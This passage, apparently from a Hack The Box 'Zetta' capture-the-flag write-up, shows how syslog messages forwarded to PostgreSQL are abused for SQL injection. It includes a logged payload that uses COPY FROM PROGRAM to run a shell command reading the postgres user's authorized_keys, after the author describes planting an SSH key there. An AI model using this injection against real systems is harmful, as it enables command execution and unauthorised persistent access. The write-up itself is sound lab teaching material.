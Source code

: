 {% endhighlight %}

<p>Ok, so if we understand the config above properly, it looks like all local7.info syslog messages are triggering this pgsql.conf rule and ultimately being forwarded to a postgres instance.</p>

<p>If we poke around a bit more, we can see where postgres stores its own logs. If you are following my mindset, we're trying to map the data model of these logs so we can start testing different approaches.</p>

{% highlight shell %}
cat postgresql.conf | grep data_dir
data_directory = '/var/lib/postgresql/11/main'		# use data in another directory
{% endhighlight %}

{% highlight shell %}
roy@zetta:/tmp/rsyslog.d$ psql --host localhost -p 5432 -U postgres -W 
Password: 
psql: FATAL:  password authentication failed for user "postgres"
FATAL:  password authentication failed for user "postgres"
{% endhighlight %}

{% highlight shell %}
roy@zetta:/etc/postgresql/11/main$ tail -n1 /var/log/postgresql/postgresql-11-main.log
2019-11-07 18:14:01.561 EST [4242] postgres@syslog STATEMENT:  INSERT INTO syslog_lines (message, devicereportedtime) values (' \','2019-11-07 23:13:51'))
{% endhighlight %}

<p>Ok, great, we now have any idea of what syslog messages get sent to posgres, local7.info, and we also have the location where the logs get forwarded to based on the rsyslog.d conf, postgresql-11-main.log. Thanks to that last location also now understand the format that these logs are being inserted into the postgres instance.</p>

<p>With all this information we have a good idea of how to proceed. We need to send our own custom syslog message, where we will attempt to execute a SQL injection through the postgres insert statement.</p>

<p>For the first part, the easiest way would be to use a utility like logger. We can pass it an attribute <code>-p local7.info</code> to ensure our message get's picked up by the postgres rule.</p>

<p>As far as the SQL injection payload, there are several ways to do this. During my investigations I figured out where the user postgres's homedirectory and SSH directory was located, therefore I decided to go with the ssh/authorized_keys route.</p>

<p>It took a lot of different tweaks and attempts to get the right character escapes, but finally I was able to get successful execution with the following.</p>

<p align="center">
<img src="{{ '/assets/htb-zetta/root-sqlinject.PNG' | relative_url }}">
</p>


<p>And because why not, I then crafted another payload to cat the file and see if it was properly updated.</p>

{% highlight shell %}
2019-11-08 16:45:46.505 EST [1537] postgres@syslog STATEMENT:  INSERT INTO syslog_lines (message, devicereportedtime) values (' \', now()); COPY syslog_lines FROM PROGRAM $$cat /var/lib/postgresql/.ssh/authorized_keys$$; -- #','2019-11-08 21:45:46')
2019-11-08 16:45:46.510 EST [1540] postgres@syslog WARNING:  there is no transaction in progress
tail: postgresql-11-main.log: file truncated
2019-11-08 16:47:28.425 EST [1540] postgres@syslog ERROR:  invalid input syntax for integer: "'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCr2BPHlixOqPa/cIzYufceN3xIqJVtpUrPwWh0kPwparSO7bCHpuU/ZmMw/wEOSEYqu68MuwH8Qqj7YwaPolU3UJK6toX598y9swOPrKmnZMBdIycMtp4ANw2+75tXQ8AiP1YKHRwTgDg8QC40l396Be45gq2c+u6vTJ2LhbJh4zteGVGg4aIziDl/b7DUA5MKh6oxa4s52D6C9CBrSziYsLzkL+UOCPC63uzIWc+BiteZkek9xJodUxidjlnWO52vZz/2ZXAu7j7RAcdr4bHY/UzZbAYCTAVpHZLdVYkZYoxMnYb5/xw7ONxgWSsuOUWjEAXgBL7PoHZd2VRbeKwn root@kali' 
	ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCr2BPHlixOqPa/cIzYufceN3xIqJVtpUrPwWh0kPwparSO7bCHpuU/ZmMw/wEOSEYqu68MuwH8Qqj7YwaPolU3UJK6toX598y9swOPrKmnZMBdIycMtp4ANw2+75tXQ8AiP1YKHRwTgDg8QC40l396Be45gq2c+u6vTJ2LhbJh4zteGVGg4aIziDl/b7DUA5MKh6oxa4s52D6C9CBrSziYsLzkL+UOCPC63uzIWc+BiteZkek9xJodUxidjlnWO52vZz/2ZXAu7j7RAcdr4bHY/UzZbAYCTAVpHZLdVYkZYoxMnYb5/xw7ONxgWSsuOUWjEAXgBL7PoHZd2VRbeKwn root@kali"
